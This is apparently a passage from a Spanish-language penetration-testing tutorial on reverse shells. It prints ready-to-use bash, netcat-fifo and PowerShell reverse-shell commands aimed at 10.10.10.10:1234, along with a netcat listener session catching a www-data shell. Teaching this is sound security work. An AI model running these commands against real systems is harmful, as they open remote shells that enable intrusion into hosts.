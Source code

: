 #### *COMANDO REVERSE SHELL*

El comando que ejecutamos depende del sistema operativo en el que se ejecuta el host comprometido, es decir, Linux o Windows, y a qué aplicaciones y comandos podemos acceder. La página [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) tiene una lista completa de comandos de shell inverso que podemos usar que cubren una amplia gama de opciones dependiendo de nuestro host comprometido. 

Ciertos comandos de shell inverso son más confiables que otros y, por lo general, se pueden intentar para obtener una conexión inversa. Los siguientes comandos son comandos confiables que podemos usar para obtener una conexión inversa, para bash en hosts comprometidos de Linux y Powershell en hosts comprometidos de Windows: 
Code: `bash`
~~~
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
~~~

Code: `bash`
~~~
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
~~~

Code: `powershell`
~~~
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
~~~

Podemos utilizar el exploit que tenemos sobre el host remoto para ejecutar uno de los comandos anteriores, es decir, a través de un exploit de Python o un módulo de Metasploit, para obtener una conexión inversa. Una vez que lo hagamos, deberíamos recibir una conexión en nuestro listener netcat: 

comando reverse shell
~~~
$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

Como podemos ver, después de recibir una conexión en nuestro listener de netcat, pudimos escribir nuestro comando y recuperar directamente su output, directamente en nuestra máquina. 

Un Reverse Shell es útil cuando queremos obtener una conexión rápida y confiable a nuestro host comprometido. Sin embargo, un Reverse Shell puede ser muy frágil. Una vez que se detiene el comando de reverse shell, o si perdemos nuestra conexión por cualquier motivo, tendríamos que usar el exploit inicial para ejecutar el comando de reverse shell nuevamente para recuperar nuestro acceso. 

___
